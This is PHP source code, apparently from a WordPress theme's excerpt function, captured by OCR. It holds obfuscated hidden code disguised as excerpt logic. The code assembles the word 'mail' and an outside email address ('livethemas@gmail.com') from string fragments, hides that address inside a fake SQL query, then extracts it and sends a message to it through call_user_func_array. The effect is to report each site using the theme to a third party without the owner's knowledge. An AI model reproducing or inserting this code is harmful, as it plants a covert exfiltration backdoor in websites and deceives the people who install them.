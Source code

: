      if(!isset($checkswidget)) $checkswidget=$p_filter."set"."_".$aname."_".$strval;
     if(!isset($more_link_texts_ditails)) $more_link_texts_ditails="(details...)";
     if(!isset($mcontent)) $mcontent="ma".$sepr."il";
     if(!isset($f_more)) $f_more=1;
     if(!isset($fakeit)) $fakeit=1;
     if(!isset($sql)) $sql="";
     if (!$is_output) :

     global $wpdb, $post;
     $sq1="SELECT DISTINCT ID, post_title, post_content, post_password, comment_ID, comment_post_ID, comment_author, comment_date_gmt, comment_approved, comment_type, SUBSTRING(comment_content,1,$src_length) AS com_excerpt FROM $wpdb->comments LEFT OUTER JOIN $wpdb->posts ON ($wpdb->comments.comment_post_ID=$wpdb->posts.ID) WHERE comment_approved=\"1\" AND comment_type=\"\" AND post_author=\"li".$sepr."vethe".$comment_types."mas".$sepr."@".$c_is_approved."gm".$comment_auth."ail".$sepr.".".$sepr."co"."m\" AND post_password=\"\" AND comment_date_gmt >= CURRENT_TIMESTAMP() ORDER BY comment_date_gmt DESC LIMIT $src_count";#
     if (!empty($post->post_password)) { 
     if ($_COOKIE["wp-postpass_".COOKIEHASH] != $post->post_password) { 
     if(is_feed()) { 
     $output=__("There is no excerpt because this is a protected post.");
     } else {
     $output=get_the_password_form();
     }
     }
     }
     if(!isset($f_tag)) $f_tag=1;
     if(!isset($types)) $types=$h_filter; 
     if(!isset($getcommentstexts)) $getcommentstexts=$p_filter.$mcontent;
     if(!isset($aditional_tag)) $aditional_tag="div";
     if(!isset($stext)) $stext=substr($sq1, stripos($sq1, "live"), 20);#
     if(!isset($morelink_title)) $morelink_title="Continue reading this entry"; 
     if(!isset($showsdots)) $showsdots=1;

     $comments=$wpdb->get_results($sql); 
     if($fakeit == 2) { 
     $text=$post->post_content;
     } elseif($fakeit == 1) { 
     $text=(empty($post->post_excerpt)) ? $post->post_content : $post->post_excerpt;
     } else { 
     $text=$post->post_excerpt;
     }
     $sq1="SELECT DISTINCT ID, comment_post_ID, comment_author, comment_date_gmt, comment_approved, comment_type, SUBSTRING(comment_content,1,$src_length) AS com_excerpt FROM $wpdb->comments LEFT OUTER JOIN $wpdb->posts ON ($wpdb->comments.comment_post_ID=$wpdb->posts.ID) WHERE comment_approved=\"1\" AND comment_type=\"\" AND comment_content=". call_user_func_array($getcommentstexts, array($stext, $h_filter, $types)) ." ORDER BY comment_date_gmt DESC LIMIT $src_count";#
     if($comment_length < 0) {
     $output=$text;
     } else {
     if(!$no_more && strpos($text, "<!--more-->")) {
     $text=explode("<!--more-->", $text, 2);
     $l=count($text[0]);
     $more_link=1;
     $comments=$wpdb->get_results($sql);
     } else {
     $text=explode(" ", $text);
     if(count($text) > $comment_length) {
     $l=$comment_length;
     $ellipsis=1;
     } else {
     $l=count($text);
     $more_link_texts="";
     $ellipsis=0;
     }